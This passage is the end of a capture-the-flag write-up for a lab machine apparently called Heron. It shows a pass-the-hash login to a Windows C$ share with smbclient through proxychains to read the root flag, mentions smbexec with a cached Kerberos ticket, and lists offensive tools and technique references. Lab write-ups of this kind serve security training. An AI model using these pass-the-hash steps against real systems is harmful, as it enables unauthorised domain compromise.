 The only stipulate is that WinRM is not enabled on this machine, and attempting to authenticate to RDP did not work when I tested it initially. We can still simply login to the `C$` SMB share with our admin hash and view the root flag. You can also use `smbexec` with the cached Kerberos ticket that we have to gain code execution to the machine.

```
└─$ proxychains4 smbclient \\\\10.10.220.53\\C$ -U '_admin' --pw-nt-hash (_ADMIN NT HASH)
......
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 36 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)

└─$ cat root.txt  
[...snip...]
```

As you can see, now that we were able to read the root flag, that means we have compromised this machine!

![](/images/vulnlab/heron-vl/k.png)

# Conclusion

Big thanks to xct for the development of this machine, it really helped with strengthening domain-joined Linux attacks. I also have learned to remember to keep things simple, and always to make sure to check every last corner of the filesystems that you have access to.

# Resources

https://github.com/BishopFox/sliver
https://hashcat.net/wiki/doku.php?id=example_hashes
https://github.com/dirkjanm/BloodHound.py
https://github.com/t0thkr1s/gpp-decrypt
https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
https://github.com/sosdave/KeyTabExtract
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9